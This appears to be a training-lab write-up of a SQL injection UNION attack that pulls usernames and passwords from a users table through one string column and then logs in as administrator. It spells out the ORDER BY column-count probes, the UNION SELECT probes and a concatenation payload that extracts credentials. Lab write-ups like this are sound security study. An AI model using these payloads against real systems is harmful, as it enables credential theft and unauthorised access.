


# Lab: SQL Injection UNION Attack (Retrieving Multiple Values in a Single Column)

## Vulnerability
The `category` parameter is vulnerable to SQL injection. Only one column returns string data.

## Exploit

### Step 1 — Column count
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3-- (error)

Confirmed 2 columns.

### Step 2 — Identify string column
' UNION SELECT 'a', NULL--  
' UNION SELECT NULL, 'a'--  

Column 2 accepts string data.

### Step 3 — Extract data
' UNION SELECT NULL, username || '-' || password FROM users--  (postgreSQL syntax)

Retrieved usernames and passwords.

### Step 4 — Login
Used extracted credentials to log in as administrator.

## Result
Successfully retrieved credentials and authenticated.

## Key Point
When only one column is visible, concatenate multiple values into that column.

## Proof

